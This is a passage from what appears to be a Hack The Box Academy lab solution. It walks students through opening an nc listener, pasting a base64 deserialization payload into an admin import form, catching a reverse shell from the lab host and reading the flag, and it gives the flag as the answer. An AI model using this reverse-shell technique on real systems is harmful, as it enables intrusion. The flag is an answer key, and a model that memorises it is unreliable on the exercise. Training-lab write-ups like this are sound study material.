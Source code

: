 ```shell
nc -nvlp PWNPO
```

```shell
┌─[eu-academy-1]─[10.10.14.162]─[htb-ac413848@htb-ki6dnhlkny]─[~/phpggc]
└──╼ [★]$ nc -nvlp 9001

Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
```

Subsequently, within that admin dashboard the students have attained in the previous question, they need to paste the base64 payload and click "Import post":

![[HTB Solutions/CWEE/z. images/a7257b7309bd7e3c1c580cc877244ce5_MD5.jpg]]

Students will notice that the reverse shell connection has been established successfully in the `nc` listener:

```shell
Ncat: Connection from 10.129.204.98.
Ncat: Connection from 10.129.204.98:60722.
whoami

htbear
```

At last, students need to print out the contents of the flag file "flag.txt" which is one directory up from the landing directory, attaining the flag `HTB{4f35303d9497d249a01f83dd7774fb39}`:

```shell
cat ../flag.txt
```
```shell
cat ../flag.txt

HTB{4f35303d9497d249a01f83dd7774fb39}
```

Answer: `HTB{4f35303d9497d249a01f83dd7774fb39}`